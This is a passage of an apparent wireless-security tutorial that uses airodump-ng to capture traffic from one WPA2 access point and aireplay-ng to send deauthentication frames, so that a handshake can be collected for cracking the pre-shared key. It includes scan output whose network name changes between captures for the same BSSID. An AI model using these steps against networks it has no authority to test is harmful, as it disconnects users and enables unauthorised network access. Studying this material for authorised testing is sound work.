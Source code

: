 ```
CH 11 ][ Elapsed: 18 s ][ 2017-08-18 01:18

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

C9:36:C1:B3:44:8A  -46       12        1    0   9  63e  WPA2 CCMP   PSK  WillRouter
66:34:E1:FF:3D:C6  -49       13        0    0   1  54e. OPN              ispwifi
40:64:91:81:89:D1  -49       12        0    0   3  54e. WPA2 CCMP   PSK  George
93:32:C8:59:B0:FF  -49       12        0    0   1  54e  WPA2 CCMP   PSK  FACTORY01
```

Note the BSSID and channel (CH) of the AP you plan to test.

Start monitoring traffic for that AP. BSSID `C9:36:C1:B3:44:8A` on channel `9`.

```
airodump-ng \
	--bssid C9:36:C1:B3:44:8A \
	-c 9 \
	--write WPAcrack \
	wlan0mon
```

`WPAcrack` is the naming scheme that will be used for a series of output files. You can use any other name in place of `WPAcrack` there if you want.

_Note that if you re-run the command without changing that name, `airodump-ng` automatically numbers the files for each run in sequence. So you'll end up with `WPAcrack-01`, `WPAcrack-02`, etc. A different number and a different set of files for each run._

Open a new terminal (do not kill/close the first one) and run this command.

```
aireplay-ng \
	--deauth 100 \
	-a C9:36:C1:B3:44:8A \
	wlan0mon
```

That command sends a message to deauthenticate wireless clients associated with the AP. The wireless client will then hopefully reauthenticate with the AP. The reauthentication is what generates the 4-way authentication handshake we are interested in collecting. This is what we use to break the WPA/WPA2 pre-shared key.{{% cite "http://aircrack-ng.org/doku.php?id=cracking_wpa#step_3_-_use_aireplay-ng_to_deauthenticate_the_wireless_client" %}}

Look at your first terminal. The one running `airodump-ng`.

Once you see `[ WPA handshake: ...` on the first line, you're set. That means we successfully collected a handshake from a client on the AP's network. The list of three lines in the second section (`D5:77:31:FA:E0:76`, `A2:71:E2:27:D5:36`, `C3:45:81:89:9A:DD`) are all devices on my network.

```
CH  9 ][ Elapsed: 1 min ][ 2017-08-18 01:21 ][ WPA handshake: C9:36:C1:B3:44:8A

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

C9:36:C1:B3:44:8A    0 100      857      210    4   9  63e  WPA2 CCMP   PSK  TinaBelcher

BSSID              STATION            PWR   Rate    Lost    Frames  Probe

C9:36:C1:B3:44:8A  D5:77:31:FA:E0:76  -42    0e- 1e     0       74
C9:36:C1:B3:44:8A  A2:71:E2:27:D5:36  -46    0e- 1e     0       45
C9:36:C1:B3:44:8A  C3:45:81:89:9A:DD  -52    0e- 1e    61       66
```
